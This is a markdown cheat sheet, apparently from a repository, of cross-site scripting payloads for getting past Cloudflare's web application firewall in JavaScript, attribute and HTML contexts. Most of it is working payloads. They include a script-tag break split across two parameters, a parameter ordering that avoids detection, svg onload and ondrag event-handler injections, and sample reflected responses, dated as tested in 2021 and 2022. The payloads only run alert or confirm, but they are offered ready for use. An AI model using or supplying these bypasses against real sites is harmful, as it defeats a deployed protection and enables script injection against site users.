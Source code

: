 # CloudFlare XSS bypasses in different contexts

### JS Context

For **JS** context, when multiple parameters are reflected inside **<script>** tag e.g:
```
<script>
something({"some/thing":{"key":[{"name":"PARAM2_REFLECTION1","age":"","country":"","address1":"PARAM1_REFLECTION2","id":"123"}]}});
</script>
```

Set value of parameter which is reflected first: `</script%20`

Set value of parameter which is reflected afterwards: `><svg/oni=on onload=confirm(2)>`

The parameter which is reflected first, should be placed at end of URL, like:

`https://example[.]com/some/endpoint?param1=%3E%3Csvg%2Foni%3Don%20onload%3Dconfirm(2)%3E&param2=</script%20`

If it is placed before like folllowing, Cloudflare WAF will trigger:

`https://example[.]com/some/endpoint?param2=</script%20&param1=%3E%3Csvg%2Foni%3Don%20onload%3Dconfirm(2)%3E`

Sample Response contents:
```
<script>
something({"some/thing":{"key":[{"name":"</script ","age":"","country":"","address1":"><svg/oni=on onload=confirm(2)>","id":"123"}]}});
</script>
```

### Attribute Context

For Attribute context use:
```
"><svg/oni=on onload=confirm(2)>
'><svg/oni=on onload=confirm(2)>
```

### HTML Context

* For HTML context use:

`<svg/oni=on onload=confirm(2)>` Credits for XSS bypass in HTML context: [Troll_13](https://twitter.com/Troll_13/status/1353713311972552709)

* When `>` is present somewhere after our payload in response page:

`<svg oni=on onload=alert(1)//` e.g reflected as `<svg oni=on onload=alert(1)//</h2>` (Crafted on `February 01, 2022`)

* When user input is reflected twice and `>` is disallowed for valid existent tags and `>` is not present in response body:

`><svg oni=on onload=alert(document.domain)//` will e.g get reflected as `Found ><svg oni=on onload=alert(document.domain)//{"><svg oni=on onload=alert(document.domain)\/\/":null}` and XSS will trigger.

* When `>` is not present after our payload anywhere in response body and at the same time when `>` is not allowed as its allowed in previous payloads, inexistent tag can be provided for xss:

`<o oni=on ondrag=alert(1)>Drag Me` e.g reflected as `<o oni=on ondrag=alert(1)>Drag Me no left angle bracket present here` -> then highlight text and drag it to trigger XSS (Crafted on `February 01, 2022`)


---

Bypasses tested on: `August 26, 2021` and `February 01, 2022`
